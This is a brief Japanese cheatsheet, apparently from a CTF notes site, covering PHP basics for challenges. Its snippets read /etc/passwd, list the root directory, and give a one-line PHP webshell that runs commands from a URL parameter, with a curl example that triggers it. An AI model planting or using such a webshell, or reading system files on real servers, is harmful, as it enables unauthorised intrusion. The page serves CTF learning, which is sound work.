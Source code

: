 ```yaml
---
layout: post
published : true
title: "PHP"
permalink: /ctf/cheatsheets/php
tags: CTF Common cheatsheet PHP
---
```

## 基本
phpを対話シェルで起動
```sh
$ php -a
```

## よく使うコード
### ディレクトリをリスト
```php
<?php print_r(scandir("/")); ?>
```
### ファイルを表示
```php
<?php print_r(readfile("/etc/passwd")); ?>
```
### Webshell
以下をウェブサイト内の.phpに埋め込む。
```php
<?php system(\$_GET['cmd']) ?>
```
以下のようにして使う。
```sh
$ curl -s http://example.com/webshell.php?cmd=id
```